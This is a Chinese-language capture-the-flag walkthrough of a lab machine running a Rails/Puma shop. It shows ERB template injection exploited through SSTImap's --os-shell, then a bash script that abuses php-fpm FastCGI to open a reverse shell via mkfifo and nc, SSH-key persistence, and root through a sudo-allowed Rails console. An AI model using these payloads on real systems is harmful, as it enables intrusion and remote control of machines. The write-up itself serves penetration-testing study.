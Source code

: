 ![Pasted image 20240913144412](https://github.com/user-attachments/assets/92d66147-3fad-43d1-a4f8-41218a78bd63)


# 端口扫描

`PORT     STATE SERVICE  VERSION`  
`22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)`  
`| ssh-hostkey:`    
`|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)`  
`|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)`  
`3000/tcp open  ssl/ppp?`  
`| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR`  
`| Not valid before: 2024-05-20T15:36:20`  
`|Not valid after:  2038-01-27T15:36:20`  
`|_ssl-date: TLS randomness does not represent time`  
`| fingerprint-strings:`    
`|   GenericLines:`    
`|     HTTP/1.0 400 Bad Request`  
`|     Content-Length: 930`  
`|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in execute'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in try_to_finish'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in reactor_wakeup'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in block in run'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in wakeup!'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in block in select_loop'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select'`  
`|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in select_loop'`  
`|     /usr/loc`

通过搜索发现3000端口为Rails的Puma服务器默认端口

# 功能测试

访问https://xx.xx.xx.xx:3000,会进入如下网页，网页提供了hacker的硬件推荐，例如Filpper Zero啥的
![Pasted image 20240913144903](https://github.com/user-attachments/assets/1a1caa98-6625-4b90-90a2-1a7d2f6e4bf0)

我们随意点击一个超链接，如图所示
![Pasted image 20240913145108](https://github.com/user-attachments/assets/8a59f08c-9416-49ee-92c6-36c8d9313755)

接下来我们搜索一下，看看有没有什么设备是没有的
![Pasted image 20240913145228](https://github.com/user-attachments/assets/2893f69b-6a9d-481f-b57c-0b60dcefce2c)

注意后面的message,为Product+does+not+exist，很明显了，这里有ssti的问题，可以搞ssti注入，但是因为这个服务器是由Ruby搭建的（具体来说是Ruby on Rails），你直接搜ssti还不行，这里应该说是ERB Template injection（ERB示例注入）。
参考链接：[ERB-SSTI](https://www.trustedsec.com/blog/rubyerb-template-injection)
我们以<%=7 * 7%>为载荷测试一下，用burpsuite更改一下message后面的内容
![Pasted image 20240913145806](https://github.com/user-attachments/assets/5f340c27-c28f-467d-b970-d818dc790f4b)

发现确实可以运行，那么这里推荐一个工具，[SSTIMap](https://github.com/vladko312/SSTImap)，--help展示如下

`nwkyo@Fruit ~/C/h/hackingtoys> python ../../../Tools/SSTImap/sstimap.py -h`     
`usage: sstimap.py [-h] [-V] [--config CONFIG] [--no-color] [-u URL] [-i] [--load-urls LOAD_URLS] [--load-forms LOAD_FORMS] [-M MARKER] [-d DATA]`  
                 `[--data-type DATA_TYPE] [--data-params KEY=VALUE] [-H HEADER] [-C COOKIE] [-m METHOD] [-a USER_AGENT] [-A] [--delay DELAY]`  
                 `[-p PROXY] [--verify-ssl] [--log-response] [-c CRAWL_DEPTH] [-f] [--empty-forms] [--crawl-exclude CRAWL_EXCLUDE]`  
                 `[--crawl-domains CRAWL_DOMAINS] [--save-urls SAVE_URLS] [--save-forms SAVE_FORMS] [-l LEVEL] [-L LEVEL CLEVEL] [-e ENGINE]`  
                 `[-r TECHNIQUE] [--blind-delay TIME_BASED_BLIND_DELAY] [--verify-blind-delay TIME_BASED_VERIFY_BLIND_DELAY] [--legacy]`  
                 `[--skip-generic] [--run] [-t] [-T TPL_CODE] [-x] [-X EVAL_CODE] [-s] [-S OS_CMD] [-B PORT] [-R HOST PORT]`  
                 `[--remote-shell REMOTE_SHELL] [-F] [-U LOCAL REMOTE] [-D REMOTE LOCAL]`
                 
和sqlmap用法差不多，同样的-u提供url，所以我们要测试messages是否如我们所料的那样

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*'`

`[+] Erb plugin has confirmed injection with tag '*'`
`[+] SSTImap identified the following injection point:`

  `Query parameter: message`
  `Engine: Erb`
  `Injection: *`
  `Context: text`
  `OS: x86_64-linux`
  `Technique: render`
  `Capabilities:`

    `Shell command execution: ok`
    `Bind and reverse shell: ok`
    `File write: ok`
    `File read: ok`
    `Code evaluation: ok, ruby code`
`……`

确实如我们所想的那样哈，sstimap和sqlmap一样有`--os-shell`功能，直接在后面添加即可

`python ../../../Tools/SSTImap/sstimap.py -u 'https://192.168.56.101:3000/search?query=1&message=*' --os-shell`
![Pasted image 20240913150617](https://github.com/user-attachments/assets/343935e0-b9d7-41a8-af46-2788b5c4cfb5)


Now we‘re in

# 用户过程

## lidia

我们通过上述方法进入到的用户是lidia用户，具体怎么确认用户这里不做叙述
可以下载linpeas.sh去跑一下是否有感兴趣的东西，这里我翻了很久之后看了一下端口以及进程

![Pasted image 20240913151003](https://github.com/user-attachments/assets/89dd8d8b-622a-458f-927b-aef3197b48d0)

发现本地起了9000端口，且用户dodi在运行php-fpm，后面我百度了一下发现了某个大佬的随笔说php-fpm可以直接rce,参考链接在这里：[https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/)

脚本内容如下：

`#!/bin/bash`

`PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'); echo '-->';"`
`FILENAMES="/dev/shm/index.php" # Exisiting file path`

`HOST=$1`
`B64=$(echo "$PAYLOAD"|base64)`

`for FN in $FILENAMES; do`
    `OUTPUT=$(mktemp)`
    `env -i \`
      `PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \`
      `SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \`
      `cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT`

    `cat $OUTPUT`
`done`

不过在写入这个脚本前记得做持久化登录，Linux这里是做`.ssh/authorized_keys`,Windows的话我记得是写入WinLogon/Userlist注册表条目去

做完后写入保存，并运行，然后就进入dodi的世界里
![Pasted image 20240913151823](https://github.com/user-attachments/assets/0e2e3b79-c737-47b7-9480-13a4ea573f81)
![Pasted image 20240913151856](https://github.com/user-attachments/assets/169ba059-2dc8-4c16-b416-71cb30b5b9c9)

## dodi

进入之后常规检查sudo -l,发现如下内容
![Pasted image 20240913151954](https://github.com/user-attachments/assets/9fae6bb3-ec99-4d7c-87db-270d7dcc2009)


让我们看看这个脚本是怎么个事
![Pasted image 20240913152040](https://github.com/user-attachments/assets/3b250862-9ffe-43ab-b378-4c8156cad03f)

这里是说要先创建一个新的Rails应用才能进行下一步的操作，例如进console和测试应用，那么我们可以先创建一个Rails应用然后再进入console

`sudo /usr/local/bin/rvm_rails.sh new rrc`

因为我这里已经创建好了，所以不放过程，我们进入已经创建好的应用文件夹内，例如这里是rrc,进入后执行

`sudo /usr/local/bin/rvm_rails.sh console`

现在已经进入console里了，在这里已经获取root权限了，但是我们面对的是这么一个界面
![Pasted image 20240913152558](https://github.com/user-attachments/assets/d6443b11-b39d-47ba-9ce6-f0abcac3bc97)

有两种方式可以执行root命令：
1.
![Pasted image 20240913153015](https://github.com/user-attachments/assets/33d7b877-be0b-49b0-b2fa-2e645515093b)

2.创建一个xxxxx.rb，然后文件里就写如图所示的代码，然后通过irb_load去加载这个rb文件
![Pasted image 20240913153543](https://github.com/user-attachments/assets/dcb5088d-9348-48dc-9a22-066e64376f01)




